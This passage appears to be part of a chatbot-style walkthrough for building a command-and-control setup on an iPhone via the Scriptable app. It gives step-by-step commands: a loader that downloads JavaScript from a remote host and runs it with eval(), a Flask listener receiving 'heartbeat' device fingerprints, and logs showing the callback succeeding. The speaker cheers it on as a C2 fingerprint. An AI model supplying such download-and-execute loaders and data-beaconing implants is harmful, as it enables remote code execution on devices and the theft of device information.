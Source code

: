 ```json
{
  "device_name": "my iPhone",
  "model": "iPhone 15",
  "battery_percent": "79%"
}
```

Which is a *better than `whoami`* C2 fingerprint. 😺

💡 This creates an **immediately-invoked async function** - a trick we use all the time in Scriptable to use `await`.

---

#### ✅ Test Flow:

1️⃣ Put the JS file on laptop:

```bash
nano ~/Downloads/fake_whoami.js
```

Paste the fixed code above 👆
Save it.

2️⃣ Confirm `http.server` is still serving the file:

```bash
python3 -m http.server 8080 --bind 192.168.66.66
```

3️⃣ Confirm Flask listener is still waiting on port 9999. 

```bash
python3 server.py
```

4️⃣ Run this Scriptable loader on iPhone:

```javascript
let url = "http://192.168.66.66:8080/Downloads/fake_whoami.js";
let req = new Request(url);
let code = await req.loadString();
eval(code);
```

5️⃣ WATCH. THE. FLASK. TERMINAL. POP. OFF:

```bash
[+] Heartbeat from: {'device_name': 'iPhone', 'model': 'iPhone', 'battery_percent': '75%'}
192.168.66.68 - - [21/May/2025 12:24:13] "POST /heartbeat HTTP/1.1" 200 -
```

and meanwhile another terminal with `python3 -m http.server --bind 192.168.66.66 8080` would be like 

```bash
192.168.66.68 - - [21/May/2025 12:24:13] "GET /Downloads/fake_whoami.js HTTP/1.1" 200 -
```
